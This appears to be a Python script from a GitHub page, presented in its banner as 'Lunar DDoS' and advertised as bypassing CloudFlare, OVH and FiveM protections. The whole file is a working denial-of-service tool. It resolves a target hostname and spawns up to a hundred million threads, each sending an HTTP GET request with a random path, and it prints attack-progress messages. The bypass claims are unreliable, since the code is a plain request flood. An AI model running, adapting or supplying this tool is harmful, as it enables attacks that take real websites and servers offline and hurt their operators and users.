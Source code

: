 import random
import socket
import string
import sys
import threading
import time


host = ""
ip = ""
port = 0
num_requests = 0



def banner():
    print('''
            

    /\_____/\     
   /  o   o  \    
  ( ==  ^  == )   GitHub: https://www.github.com/ognj8n
   )         (    Discord Support: ogi#0001
  (           )   ========================================================
 ( (  )   (  ) )  Lunar DDoS - Bypass CloudFlare,OVH,FiveM
(__(__)___(__)__) Version: [ 0.1 ]          ''')

banner()
time.sleep(3)

if len(sys.argv) == 2:
    port = 80
    num_requests = 100000000
elif len(sys.argv) == 3:
    port = int(sys.argv[2])
    num_requests = 100000000
elif len(sys.argv) == 4:
    port = int(sys.argv[2])
    print ("\n Usage >> " + sys.argv[0] + " < Hostname > < Port >")
    num_requests = int(sys.argv[3])
else:
    sys.exit(1)


try:
    host = str(sys.argv[1]).replace("https://", "").replace("http://", "").replace("www.", "")
    ip = socket.gethostbyname(host)
except socket.gaierror:
    print (" Make sure you entered a correct website ")
    sys.exit(2)


thread_num = 0
thread_num_mutex = threading.Lock()



def print_status():
    global thread_num
    thread_num_mutex.acquire(True)

    thread_num += 1
    print ("\n " + time.ctime().split(" ")[3] + " " + "[" + str(thread_num) + "] << Threads Sent ♥ ")

    thread_num_mutex.release()


def generate_url_path():
    msg = str(string.ascii_letters + string.digits + string.punctuation)
    data = "".join(random.sample(msg, 5))
    return data


def attack():
    print_status()
    url_path = generate_url_path()

    
    dos = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
        dos.connect((ip, port))

        
        msg = "GET /%s HTTP/1.1\nHost: %s\n\n" % (url_path, host)
        byt = msg.encode()
        dos.send(byt)
    except socket.error:
        print ("\n [ ♥ SERVER IS DOWN ♥ ]: " + str(socket.error))
    finally:
        
        dos.shutdown(socket.SHUT_RDWR)
        dos.close()


print ("[♥] Attack Started  " + host + " (" + ip + ") || Port >>  " + str(port) + " || Requests >> " + str(num_requests))

all_threads = []
for i in range(num_requests):
    t1 = threading.Thread(target=attack)
    t1.start()
    all_threads.append(t1)

    
    time.sleep(0.01)

for current_thread in all_threads:
    current_thread.join() 
